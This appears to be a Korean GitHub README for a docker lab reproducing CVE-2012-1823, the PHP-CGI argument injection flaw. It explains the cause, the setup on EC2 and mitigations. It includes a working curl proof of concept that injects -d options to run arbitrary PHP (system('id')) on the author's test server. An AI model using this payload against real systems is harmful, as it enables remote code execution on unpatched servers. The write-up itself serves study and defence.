


# docker-container

### 취약점 요약 (CVE-2012-1823)
- 취약점명: PHP-CGI Argument Injection (인자 주입을 통한 원격 코드 실행)
- 영향받는 버전: PHP 5.4.2 이전 버전 또는 5.3.12 버전

### 발생 원인 및 원리:
- PHP에는 웹 서버(Apache 등)와 외부 프로그램 간의 상호 작용을 가능하게 하는 표준 프로토콜인 CGI 모드가 존재한다.
- 해당 취약점은 PHP 내부 코드인 sapi/cgi/cgi_main.c 파일에 존재하는 php-cgi 로직에서 발생한다.
- 사용자가 URL 쿼리 스트링을 통해 입력한 값을 처리할 때, -s, -d와 같은 명령줄 매개변수를 필터링하거나 검증하지 않고 실 행 환경으로 넘겨버리는 결함이 존재한다.

### 환경 구성

- git clone 후, docker compose up -d 명령어를 통해 테스트 환경을 실행하였으나, ‘! php The requested image's platform (linux/amd64) does not match the detected host platform (linux/arm64/v8)’라는 메시지가 떴다.
- 따라서 AWS의 EC2를 통해 우분투 서버를 생성하여 진행하였다.
- 인스턴스를 생성하고 실행 환경을 구성한 후, docker compose up -d 명령어를 사용하였더니, 다음과 같이 접속이 가능하였다.

- 처음에 접속이 되지 않고 무한 로딩이 걸려 AWS의 방화벽을 열어주는 작업을 진행해야 했다.

### 취약점 소개 및 구현 증명

- 대상 서버가 PHP를 **CGI모드**로 구동하고 있어야 한다.
- URL 쿼리 스트링을 통해 전달되는 입력값에 대해 `s`, `d`, `c` 등 명령줄 매개변수 필터링 처리가 누락되어 있어야 한다.

### PoC 코드

`curl -s -X POST "http://13.125.60.214:8080/index.php?-d+allow_url_include%3Don+-d+auto_prepend_file%3Dphp%3A//input" \-d "<?php system('id'); ?>"`

### **결과**

### 재현 절차

- URL의 쿼리 스트링에 `d` 매개변수를 직접 주입하여, PHP-CGI가 실행될 때 `allow_url_include=on` 및 `auto_prepend_file=php://input` 설정이 런타임에 강제 적용되도록 한다.

### 대응 방안

**입력값 필터링 및 웹 방화벽 도입**

- URL 쿼리 스트링에 `s`, `d`, `c` 등의 비정상적인 매개변수 패턴이 탐지될 경우 해당 HTTP 요청을 즉각 차단하도록 한다.
- Apache 설정 파일(`httpd.conf` 또는 `.htaccess`)에서 `mod_rewrite` 모듈을 활용하여 악의적인 쿼리 패턴을 필터링하는 규칙을 추가한다.
